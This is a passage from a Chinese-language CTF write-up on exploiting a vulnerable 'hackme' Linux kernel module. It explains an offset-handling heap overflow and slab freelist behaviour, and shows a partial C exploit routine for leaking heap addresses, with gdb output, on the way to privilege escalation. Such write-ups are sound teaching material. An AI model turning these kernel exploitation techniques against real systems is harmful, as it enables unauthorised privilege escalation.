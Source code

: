 这里构造一个object，并初始化，存储在`pool`中。

漏洞在于：offset字段是无符号整数，意味着offset可以是负数，造成向下溢出。

#### 漏洞利用

对于堆越界造成任意长度读写内存，且系统`KASLR`、`SMEP`、`SMAP`保护全开，模块只开启了`NX`保护。

需要转换为**任意地址读写**来达到提权。

注意这里exp上传到原文件系统需要静态链接编译，否则出现`sh : exp not found`。

##### slab堆管理

内核堆管理`slab`类似于`fastbin`管理机制，空闲堆块链表`LIFO`，且`FD`指向下一个空闲堆块。

如下示例代码

```c
int main()
{
	// init a object and user_buffer to communicate with kernel
	obj = malloc(sizeof(object));
	unsigned char mem[0x1000];
	memset(mem, 0, sizeof(mem));


	open_hackme();

	// leak heap addr
	alloc_object(0, mem, 0x100);
	alloc_object(1, mem, 0x100);
	alloc_object(2, mem, 0x100);
	alloc_object(3, mem, 0x100);
	alloc_object(4, mem, 0x100);

	puts("[*] alloc done!");
	free_object(1);
	free_object(3);

	puts("[*] free done!");
	write_object(0, mem, 0x20, 0x10);

	return 0;
}
```



在`alloc done`时，全局变量pool里堆分布：

```assembly
gdb-peda$ x/10gx $1
0xffffffffc0035400:	0xffff9588c017b500	0x0000000000000100
0xffffffffc0035410:	0xffff9588c017b600	0x0000000000000100
0xffffffffc0035420:	0xffff9588c017b700	0x0000000000000100
0xffffffffc0035430:	0xffff9588c017b800	0x0000000000000100
0xffffffffc0035440:	0xffff9588c017b900	0x0000000000000100
```
